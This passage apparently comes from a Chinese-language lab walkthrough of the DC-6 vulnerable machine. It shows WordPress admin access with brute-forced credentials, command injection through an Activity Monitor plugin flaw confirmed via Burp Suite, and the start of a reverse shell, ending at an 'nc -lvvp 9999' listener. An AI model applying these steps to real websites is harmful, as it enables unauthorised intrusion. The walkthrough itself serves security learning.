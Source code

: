 通过爆破的账户和密码登录管理后台

<http://wordy/wp-login.php>

![14](https://havocykp.github.io/assets/images/img_blog8/14.png)

发现用户及相应的权限

![15](https://havocykp.github.io/assets/images/img_blog8/15.png)

发现使用了 activity monitor 插件

![16](https://havocykp.github.io/assets/images/img_blog8/16.png)

查找activity monitor插件相关漏洞

![17](https://havocykp.github.io/assets/images/img_blog8/17.png)

查看 45274.html 内容

描述：这个版本的插件存在 CSRF 和 反射型 XSS

![18](https://havocykp.github.io/assets/images/img_blog8/18.png)

根据描述，先用提供的代码尝试反弹shell

![19](https://havocykp.github.io/assets/images/img_blog8/19.png)

修改html文件，打开dc6.html，不能成功反弹shell

![20](https://havocykp.github.io/assets/images/img_blog8/20.png)

![21](https://havocykp.github.io/assets/images/img_blog8/21.png)

![22](https://havocykp.github.io/assets/images/img_blog8/22.png)

通过burpsuite抓包，测试能否成功反弹shell

点击tools，输入框中输入任意字符测试，最后点击lookup按钮，进行抓包

![23](https://havocykp.github.io/assets/images/img_blog8/23.png)

![24](https://havocykp.github.io/assets/images/img_blog8/24.png)

将该流量导入到 repeater 中，将 1234 改掉，用浏览器去访问它，我这里使用的是127.0.0.1，访问whoami，查看其权限

![25](https://havocykp.github.io/assets/images/img_blog8/25.png)

结果返回了 www-data，说明确实存在漏洞

尝试用 nc 命令进行反弹

① 用 攻击机进行监听

nc -lvvp 9999
